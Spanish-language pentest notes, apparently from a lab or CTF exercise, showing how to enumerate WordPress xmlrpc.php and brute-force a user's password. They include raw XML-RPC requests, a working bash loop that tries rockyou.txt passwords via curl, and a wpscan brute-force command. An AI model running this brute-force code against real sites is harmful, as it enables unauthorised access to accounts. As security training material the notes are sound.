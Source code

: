 # ENUMERAR XMLRPC + ATAQUES FUERZA BRUTA WORDPRESS
También es posible que podamos enumerar este archivo el cual nos sirve para obtener credenciales de usuarios, ya que se trata de un archivo que permite la comunicación de wordpress y otros sistemas usando php; y si lo buscamos en el navegador vemos que existe pero que sólo tramita peticiones por POST:
![[Pasted image 20230421133400.png]]
Por tanto con curl vamos a enviarle una petición por POST y vemos que sí nos devuelve algo en XML:
![[Pasted image 20230421133532.png]]
Y ahora que vemos que existe este fichero, buscamos en google como explotar vulnerabilidades haciendo uso de este fichero:
![[Pasted image 20230421133725.png]]
Y nos dicen que tenemos que tramitar esto:
![[Pasted image 20230421133752.png]]
```php
POST /xmlrpc.php HTTP/1.1
Host: example.com
Content-Length: 135

<?xml version="1.0" encoding="utf-8"?> 
<methodCall> 
<methodName>system.listMethods</methodName> 
<params></params> 
</methodCall>
```
Por tanto pegamos este código en un fichero xml:
![[Pasted image 20230421133907.png]]
Y ahora este fichero lo tramitamos por POST contra el xmlrpc de wordpress:
![[Pasted image 20230421134022.png]]
Y el servidor nos responde con todos los métodos disponibles:
![[Pasted image 20230421134102.png]]
Y si miramos más en la página, vemos que nos muestran como hacer un ataque de fuerza bruta:
![[Pasted image 20230421134340.png]]
```php
<?xml version="1.0" encoding="UTF-8"?>
<methodCall> 
<methodName>wp.getUsersBlogs</methodName> 
<params> 
<param><value>\{\{your username\}\}</value></param> 
<param><value>\{\{your password\}\}</value></param> 
</params> 
</methodCall>
```
Y vemos que aquí si ponemos unas credenciales correctas y lo ejecutamos como antes, nos va a funcionar correctamente:
![[Pasted image 20230421134520.png]]
![[Pasted image 20230421134540.png]]
En este punto podríamos hacer un ataque de fuerza bruta, tanto con un script de bash o con la propia herramienta wpscan:
```bash
#!/bin/bash

function salir() {
    exit 1
}

trap salir SIGINT

for i in $(cat rockyou.txt); do
    variable=$(cat <<FIN
<?xml version="1.0" encoding="UTF-8"?>
<methodCall> 
<methodName>wp.getUsersBlogs</methodName> 
<params> 
<param><value>Elliot</value></param> 
<param><value>$i</value></param> 
</params>     
</methodCall>
FIN
    )

    echo -e "$variable" >> enviar.xml
    echo -e "[+] Probamos con la contraseña $i"

    curl -s -X POST 'http://10.10.126.89/xmlrpc.php' -d@enviar.xml >> log.log

    if [ ! "$(cat log.log | grep 'Incorrect username or password.')" ]; then
         echo -e "[+] La contraseña para Elliot es $i"
         exit 0
    fi

    sleep 1

rm log.log enviar.xml

done
```
![[Pasted image 20230421143424.png]]
O también directamente desde la herramienta, lo cual será más rápido:
```bash
wpscan --url <url> -U <user> -P <pass>
```
![[Pasted image 20230421143525.png]]
Y nos la encuentra:
![[Pasted image 20230421143548.png]]
